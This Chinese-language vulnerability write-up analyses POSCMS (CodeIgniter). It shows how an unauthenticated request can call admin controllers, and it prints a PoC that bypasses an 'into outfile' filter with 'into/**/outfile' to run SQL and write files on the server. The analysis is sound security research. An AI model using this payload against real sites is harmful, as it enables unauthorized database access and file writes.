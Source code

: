 POSCMS 任意sql语句执行漏洞
==========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 任意API调用

**分析入口文件**

> index.php \-\--\>/diy/init.php
> \-\-\-\-\--\>/diy/system/core/CodeIgniter.php

程序使用的CodeIgniter（CI）框架，直接去看CI框架。

    $RTR =& load_class('Router', 'core', isset($routing) ? $routing : NULL);

初始化Router类，调用\_set\_routing()方法绑定路由。

    if ( ! isset($this->directory))
                        {
                                $_d = $this->config->item('directory_trigger');
                                $_d = isset($_GET[$_d]) ? trim($_GET[$_d], " \t\n\r\0\x0B/") : '';

                                if ($_d !== '')
                                {
                                        $this->uri->filter_uri($_d);
                                        $this->set_directory($_d);
                                }
                        }

                        $_c = trim($this->config->item('controller_trigger'));
                        if ( ! empty($_GET[$_c]))
                        {
                                $this->uri->filter_uri($_GET[$_c]);
                                $this->set_class($_GET[$_c]);

                                $_f = trim($this->config->item('function_trigger'));
                                if ( ! empty($_GET[$_f]))
                                {
                                        $this->uri->filter_uri($_GET[$_f]);
                                        $this->set_method($_GET[$_f]);
                                }

                                $this->uri->rsegments = array(
                                        1 => $this->class,
                                        2 => $this->method
                                );
                        }
                        else
                        {
                                $this->_set_default_controller();
                        }

> config

    $config['controller_trigger']                        = 'c';
    $config['function_trigger']                                = 'm';
    $config['directory_trigger']                        = 'd';

简述这里就是

    $this->class = $_GET[‘c’];
    $this->method = $_GET[‘m’];
    $this->directory = $_GET[‘d’];

回到CI框架，这里直接通过反射进行了调用。

    $e404 = FALSE;
    $class = ucfirst($RTR->class);
    $method = $RTR->method;

    if (empty($class) OR ! file_exists(APPPATH.'controllers/'.$RTR->directory.$class.'.php'))
    {
       $e404 = TRUE;
    }
    else
    {
       require_once(APPPATH.'controllers/'.$RTR->directory.$class.'.php');

       if ( ! class_exists($class, FALSE) OR $method[0] === '_' OR method_exists('CI_Controller', $method))
       {
         $e404 = TRUE;
       }
       elseif (method_exists($class, '_remap'))
       {
         $params = array($method, array_slice($URI->rsegments, 2));
         $method = '_remap';
       }
       elseif ( ! method_exists($class, $method))
       {
         $e404 = TRUE;
       }
       /**
        * DO NOT CHANGE THIS, NOTHING ELSE WORKS!
        *
        * - method_exists() returns true for non-public methods, which passes the previous elseif
        * - is_callable() returns false for PHP 4-style constructors, even if there's a __construct()
        * - method_exists($class, '__construct') won't work because CI_Controller::__construct() is inherited
        * - People will only complain if this doesn't work, even though it is documented that it shouldn't.
        *
        * ReflectionMethod::isConstructor() is the ONLY reliable check,
        * knowing which method will be executed as a constructor.
        */
       elseif ( ! is_callable(array($class, $method)) && strcasecmp($class, $method) === 0)
       {
         $reflection = new ReflectionMethod($class, $method);
         if ( ! $reflection->isPublic() OR $reflection->isConstructor())
         {
          $e404 = TRUE;
         }
       }
    }

> APPPATH.'controllers/ = /diy/dayrui/controllers/

然后我们就可以调用这里的Controller，关键点是在这里有个admin文件夹，里面包含了管理员可调用的功能点，而且他继承的基类（SuperClass）并没有检测用户权限。就导致任意调用这里的功能点。

### SQL语句执行（增删改查）

既然可以调用管理员才能调用的功能点，问题就太多了，这里就随便讲一个喽。

文件：/diy/dayrui/controllers/admin/Db.php 方法：sql

     public function sql() {
        $sql = '';
        $count = $id = 0;

        if (IS_POST) {
            $id = $this->input->post('id');
            $sql = str_replace('{dbprefix}', $this->db->dbprefix, $this->input->post('sql'));
            if (preg_match('/select(.*)into outfile(.*)/i', $sql)) {
                $this->admin_msg(fc_lang('存在非法select'));
            }
            $sql_data = explode(';SQL_FINECMS_EOL', trim(str_replace(array(PHP_EOL, chr(13), chr(10)), 'SQL_FINECMS_EOL', $sql)));
            if ($sql_data) {
                $db = $this->db;
                foreach($sql_data as $query){
                    if (!$query) {
                        continue;
                    }
                    $queries = explode('SQL_FINECMS_EOL', trim($query));
                    $ret = '';
                    foreach($queries as $query) {
                        $ret.= $query[0] == '#' || $query[0].$query[1] == '--' ? '' : $query;
                    }
                    if (!$ret) {
                        continue;
                    }
                    $db->query($ret);
                    $count++;
                }
                if ($count == 1 && stripos($ret, 'select') === 0) {
                    $this->template->assign(array(
                        'result' => $db->query($ret)->result_array(),
                    ));
                }
            }
        }

        $this->template->assign(array(
            'menu' => $this->get_menu_v3(array(
                fc_lang('执行SQL') => array('admin/db/sql', 'database')
            )),
            'id' => $id,
            'sql' => $sql,
            'mcount' => $count,
        ));
        $this->template->display('db_sql.html');
    }

这里使用正则表达式匹配危险字符into
outfile，绕过就太简单了。into/\*\*/outfile。

### poc

`https://www.0-sec.org/index.php?c=db&amp;d=admin&amp;m=sql Post sql=select 1 into/**/outfile 'C:\phpstudy_pro\WWW\www.0-sec.org\poscms\11111.txt'`
